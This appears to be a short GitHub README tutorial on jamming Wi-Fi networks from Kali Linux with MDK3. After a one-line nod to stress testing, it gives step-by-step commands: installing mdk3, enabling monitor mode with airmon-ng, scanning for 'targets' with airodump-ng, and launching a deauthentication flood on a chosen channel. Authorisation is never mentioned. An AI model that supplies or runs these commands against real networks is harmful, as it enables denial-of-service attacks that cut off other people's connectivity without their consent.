


# MDK3
WIFI jamming with MDK3

so today I am going to show you how to jam wifi networks with kali linux using MDK3.

<b>What is MDK3:</b> MDK3 is a proof of concept tool. It is used for stress testing 802.11 networks(wifi). It consists of various methods by which we can perform tests. Some of major method sare beacon flooding, deauthentication, WPA- dos etc. In pentests mdk is used for testing the network infrastructures having 802.11 implementations and ensuring compliance standards.

So lets begin:

1) Open up the terminal and type <b>"sudo apt install mdk3"</b>

2) Open up another terminal and start monitor mode by typing <b>"sudo airmon-ng start (interface)"</b>
   (you can check your interface by typing <b>"ifconfig"</b> my  interface is wlan0)
  
3) In the same terminal again type <b>"ifconfig"</b> to view the interace you have started monitor mode in (for example if your interface before was "wlan0" after montor made it will be changed to "wlan0mon")

4) Now we look for targets to attack on, for that type <b>"sudo airodump-ng ( monitor-mode interface)"</b>( press ctrl+c to stop the scan)
  
  
5) Find the channel no. your target is on and then in the mdk3 terminal type <b>" sudo mdk3 (monitor-mode interface) d -c (your targets channel number)"</b>  example: <b>"sudo mdk3 wlan0mon d -c 10"</b>]

   
Now the wifi network of your target is jammed ad it wont staop until you stop the program by ressing ctrl+c
